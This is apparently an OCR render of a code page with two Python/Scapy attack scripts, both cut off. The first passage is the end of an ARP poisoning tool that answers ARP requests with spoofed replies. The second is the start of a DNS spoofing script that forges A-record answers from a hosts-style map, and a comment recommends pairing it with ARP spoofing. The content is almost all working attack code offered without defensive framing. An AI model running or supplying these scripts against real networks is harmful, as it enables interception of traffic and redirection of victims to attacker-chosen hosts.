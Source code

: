 ```shell
 
        print "Fooling " + packet[ARP].psrc + " that " + \
              packet[ARP].pdst + " is me"
        sendp(answer, iface=sys.argv[1])
 
sniff(prn=arp_poison_callback,
      filter="arp",
      iface=sys.argv[1],
      store=0)
 
```

 

```bash
#!/usr/bin/env python
# dns-spoofing
#
# A simple DNS spoofing script
# It's batter with ARP-Spoofing
# and delete the local hosts file
# at same time.
# The hosts-file like this:
# 123.12.23.121 www.google.com
#
 
import sys
import getopt
import scapy.all as scapy
 
dev = "eth0"
filter = "udp port 53"
file = None
dns_map = {}
 
def handle_packet(packet):
    ip = packet.getlayer(scapy.IP)
    udp = packet.getlayer(scapy.UDP)
    dns = packet.getlayer(scapy.DNS)
 
    # standard (a record) dns query
    if dns.qr == 0 and dns.opcode == 0:
        queried_host = dns.qd.qname[:-1]
        resolved_ip = None
 
        if dns_map.get(queried_host):
            resolved_ip = dns_map.get(queried_host)
        elif dns_map.get('*'):
            resolved_ip = dns_map.get('*')
         
        if resolved_ip:
            dns_answer = scapy.DNSRR(rrname=queried_host + '.',
                                     ttl = 330,
                                     type="A",
                                     rclass="IN",
                                     rdata=resolved_ip)
            dns_reply = scapy.IP(src=ip.dst, dst=ip.src) / \
                    scapy.UDP(sport=udp.dport,dport=udp.sport) / \
                    scapy.DNS(
                        id = dns.id,
                        qr = 1,
                        aa = 0,
                        rcode = 0,
                        qd = dns.qd,
```